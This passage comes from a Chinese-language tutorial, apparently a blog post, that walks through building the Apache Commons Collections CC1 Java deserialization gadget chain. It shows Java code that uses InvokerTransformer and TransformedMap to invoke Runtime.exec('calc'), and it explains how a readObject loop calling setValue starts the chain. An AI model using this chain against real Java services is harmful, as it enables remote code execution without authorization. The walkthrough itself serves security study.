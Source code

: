 ```bash
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        //危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
        //public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> map = new HashMap<>();//new一个map
        map.put("key","value");//对map进行赋值
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
        for(Map.Entry entry:transformedmap.entrySet()){//将transformedmap传进去，会自动调用到父类里面的setValue方法：
            entry.setValue(r);
        }
    }
}
```

#### 前半条链：

[![](assets/1701612311-f1d1cd958db1cb66739e7449cfcec80c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235051-e0a859a0-20cb-1.png)

然后我们需要找到一个能够遍历`map`的方法，且能把`transformedmap`传进去，最好就是能够找到某个类的`readObject`里面遍历 map 时调用了`setValue`：

然后结果我们就找到了：

[![](assets/1701612311-878101355d476576357c01285089ed56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235056-e3cf64ca-20cb-1.png)

这里恰好是一个 Map.Entry 的形式，然后在遍历 map 以后使用了 setValue：

```bash
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
```

